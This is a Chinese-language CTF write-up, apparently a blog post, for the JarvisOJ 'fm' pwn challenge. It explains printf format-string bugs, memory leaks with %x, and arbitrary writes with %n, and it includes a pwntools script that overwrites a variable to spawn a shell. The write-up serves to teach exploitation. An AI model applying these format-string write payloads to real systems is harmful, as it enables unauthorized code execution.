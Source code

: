 ```yaml
---
title: 61DCTF fm の Write-Up
date: 2020-09-08 16:08:05
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- 61DCTF
- Stack
---
```

## Introduction

&emsp;&emsp;程序运行截图：

![](/img/fm/fm1.png)

<!-- more -->

&emsp;&emsp;checksec发现存在Canary以及DEP保护：

![](/img/fm/fm2.png)

## Analysis

&emsp;&emsp;将程序通过IDA打开，首先是main函数：

![](/img/fm/fm3.png)

&emsp;&emsp;可以看到主函数里就已经存在`system("/bin/sh")`的语句，基本思路当然要满足跳转条件，执行该语句。

&emsp;&emsp;根据运行结果可以知道这个`x`在程序中被定为3，我们需要将其改为4。而在`printf(&buf)`这里存在典型的格式化字符串漏洞，通过该漏洞可以实现任意内存写入。

## Vulnerability

&emsp;&emsp;解题关键在于了解格式化字符串漏洞，而在了解这个漏洞之前，首先要了解一下printf函数（其他函数类似sprintf、fprintf等print家族函数都会存在同样的问题）。

&emsp;&emsp;printf函数用法是`printf(“格式化字符串”, 参数…)`，函数返回值是int类型，返回正确输出的字符个数。如果输出失败，返回负值。参数个数不确定，可以是多个，也可以没有参数。

&emsp;&emsp;prtintf函数的格式化字符串常见的有下面几种：

```
%a  浮点数、十六进制数字和p-记数法（c99
%A  浮点数、十六进制数字和p-记法（c99）
%c  一个字符(char)
%C  一个ISO宽字符
%d  有符号十进制整数(int)（%ld、%Ld：长整型数据(long),%hd：输出短整形。）　
%e  浮点数、e-记数法
%E  浮点数、E-记数法
%f  单精度浮点数(默认float)、十进制记数法（%.nf  这里n表示精确到小数位后n位.十进制计数）
%g  根据数值不同自动选择%f或%e．
%G  根据数值不同自动选择%f或%e.
%i  有符号十进制数（与%d相同）
%o  无符号八进制整数
%p  指针
%s  对应字符串char*（%s = %hs = %hS 输出 窄字符）
%S  对应宽字符串WCAHR*（%ws = %S 输出宽字符串）
%u  无符号十进制整数(unsigned int)
%x  使用十六进制数字0xf的无符号十六进制整数　
%X  使用十六进制数字0xf的无符号十六进制整数
%%  打印一个百分号
```

&emsp;&emsp;还有不常见的%n，会将%n之前打印出来的字符个数赋值给一个变量。此外还有%hn（写入目标空间2字节），%hhn（写入目标空间1字节），%lln（写入目标空间8字节）。

&emsp;&emsp;例如这样一个程序：

```C#
# include <stdio.h>
int main(){
  int n = 0;
  printf("test%n\n", &n);
  printf("n is %d\n", n);
  return 0;
}
```

&emsp;&emsp;程序编译运行之后输出的n是4。

&emsp;&emsp;接下来就可以去了解一下格式化字符串漏洞了。正确的printf函数用法应该是这样的：

```C#
#include <stdio.h>
int main(){
  int n = 6;
  printf("%d\n", n);
  return 0;
}
```

&emsp;&emsp;而有时候也会被省略成这样：

```C#
# include <stdio.h>
int main(){
  char a[] = "coldsnap";
  printf(n);
  return 0;
}
```

&emsp;&emsp;两种方式写法上没什么问题，但是当把字符串输入权交给用户时，就会造成严重的问题。考虑这样一个程序：

```C#
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	char s[100];
	scanf("%s", s);
	printf(s);
	return 0;
}
```

&emsp;&emsp;如果用户输入的不是正常的字符串，而是格式化字符串`%x%x`，则会输出内存中的数据：

![](/img/fm/fm4.png)

&emsp;&emsp;这是由于printf函数并不知道参数个数，在其内部有个指针，用来检索格式化字符串。对于特定类型的格式化字符串，去取相应参数的值，直到结束。所以尽管程序中没有参数，上面的代码也会将输入的fromat string后面的内存当作参数以%x即16进制方式输出，造成内存泄漏的问题。

&emsp;&emsp;通过内存泄露问题就要引申到任意内存读取的问题上，当然前提是需要确定局部变量是储存在栈中，这样理论上通过很多个`%x`就可以读到想要的内存位置。

&emsp;&emsp;也可通过`%< number>$x`是直接读取第number个位置的参数，同样可以用在%n，%d等等。

&emsp;&emsp;但是需要注意64位程序，前6个参数是存在寄存器中的，从第7个参数开始才会出现在栈中，所以栈中从格式化串开始的第一个，应该是`%7$n`。

&emsp;&emsp;甚至通过这个漏洞可以实现任意地址写入，需要用到linux自带的printf命令，将shellcode编码转义为字符。（注意用反引号将printf命令括住，反引号在Tab键的上面，反引号内的内容会被当做命令执行。）如果是用scanf输入字符串，则无法使用printf命令，只能对照ascii码表，scanf和命令行输入的shellcode编码不能直接被转义。

&emsp;&emsp;例如通过`"`printf '\x41\x41\x41\x41’`"`将0x41414141这个地址写入内存，下面只需用%s读取对应位置，就能读取以0x41414141为首地址的字符串。

&emsp;&emsp;如果用%n就能将0x41414141这个地址指向的值修改，就能造成任意内存的修改，可以将栈中返回地址修改为想要执行的shellcode的首地址等等。

&emsp;&emsp;这里要注意ASLR的问题。

## PWN

&emsp;&emsp;接下来就来继续分析刚开始那道题。

&emsp;&emsp;通过Analysis部分的分析，程序中存在格式化字符串漏洞。通过`x_addr%[i]$n`命令，可以将已经输出的字符个数写入到指定的参数中，这个格式化字符串会在栈上的某处，需要定位x_addr作为printf的第几个参数来确定[i]的值，由于x_addr在32位程序中刚好是4个字节，所以这个格式化字符串刚好能把相应参数变为4。

&emsp;&emsp;首先是main函数中的x位置，根据下图x_addr应该是0x804a02c：

![](/img/fm/fm5.png)

&emsp;&emsp;然后再确定偏移：

![](/img/fm/fm6.png)

&emsp;&emsp;将程序断在printf函数，发现输入的数据“aaaaaa”在栈上地址为0xffb171ec，原来数据的地址为0xffb171c0。两者地址差值便是偏移为44。这个程序是32位程序，每个格式化字符串位4字节，所以偏移数为11。

&emsp;&emsp;最后就是写脚本了：

```Python
from pwn import *

sh = process('./fm')
# sh = remote('pwn2.jarvisoj.com', '9895')

x_addr = 0x804a02c

payload = p32(x_addr) + "%11$n"

sh.sendline(payload)
sh.interactive()
sh.close()
```

&emsp;&emsp;脚本本地运行结果：

![](/img/fm/fm7.png)
